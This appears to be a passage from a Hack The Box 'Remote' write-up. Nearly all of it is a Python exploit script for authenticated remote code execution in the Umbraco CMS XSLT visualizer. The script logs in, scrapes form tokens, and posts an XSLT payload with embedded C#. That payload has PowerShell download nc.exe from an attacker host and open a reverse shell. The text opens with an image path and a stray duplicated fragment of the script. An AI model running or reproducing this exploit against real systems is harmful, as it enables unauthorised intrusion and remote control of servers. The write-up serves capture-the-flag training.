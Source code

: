 ```
data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"};

# Step 4 - Launch the attack
r4 = s.post(url_xslt,data=data,headers=headers);

print("End");
```

We need to edit few things to make it works properly.

```
import requests;

from bs4 import BeautifulSoup;

def print_dict(dico):
    print(dico.items());

print("Start");

# Execute a calc for the PoC
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "mkdir /tmp;iwr -uri http://10.10.14.75:8000/nc.exe -outfile /tmp/nc.exe;/tmp/nc.exe 10.10.14.75 9001 -e powershell"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";
password="baconandcheese";
host = "http://remote.htb";

# Step 1 - Get Main page
s = requests.session()
url_main =host+"/umbraco/";
r1 = s.get(url_main);
print_dict(r1.cookies);

# Step 2 - Process Login
url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";
loginfo = {"username":login,"password":password};
r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page
url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";
r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');
VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];
headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};
data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"};

```